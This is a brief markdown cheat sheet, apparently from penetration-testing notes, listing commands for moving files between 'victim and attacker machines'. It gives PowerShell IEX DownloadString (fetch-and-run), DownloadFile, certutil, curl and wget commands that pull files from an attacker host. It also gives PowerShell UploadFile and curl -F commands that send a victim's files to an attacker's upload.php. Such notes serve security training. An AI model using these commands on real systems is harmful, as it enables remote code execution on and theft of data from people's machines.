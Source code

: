 # There are many ways to transfer files from and to victim and attacker machines: 

## Transfers over HTTP: 

**Download from attacker**
- Set up python server at th e directory we want to serve files at
- Windows: 
	1. `powershell -c IEX(New-Object System.Net.WebClient).DownloadString(<attacker-ip-file-location>)`
	2. `powershell (New-Object System.Net.WebClient).DownloadFile(<attacker-ip-file-location>,<victim-target-file-location>`
	3. `certutil -urlcache -split -f <attacker-ip-file-location> <victim-target-file-location>`
- Linux: 
	1. `curl <attacker-ip-file-location> -o <download-file-location>`
	2. `wget <attacker-ip-file-location> -O <download-file-location>`

**Upload to attacker**
- Turn off python web server
- Turn on apache web server: `service apache2 start`
- Windows:
	- `powershell -c (New-Object System.Net.WebClient).UploadFile(<attacker-ip/upload.php>,'<full-path-file-to-upload>')`
- Linux: 
	- `curl -F 'file=@/full/path/to/the/file' <attacker-ip>/upload.php`
